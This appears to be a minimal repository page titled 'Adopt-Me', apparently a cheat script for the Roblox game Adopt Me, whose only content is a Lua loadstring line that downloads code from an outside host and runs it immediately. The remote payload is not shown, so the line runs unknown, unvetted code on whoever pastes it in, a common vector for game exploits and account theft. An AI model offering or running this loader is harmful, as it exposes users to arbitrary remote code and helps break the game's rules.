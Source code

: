 # Adopt-Me



loadstring(game:HttpGet("https://egorikusa.space/7b6d480d06e9acc056a93468.lua", true))()
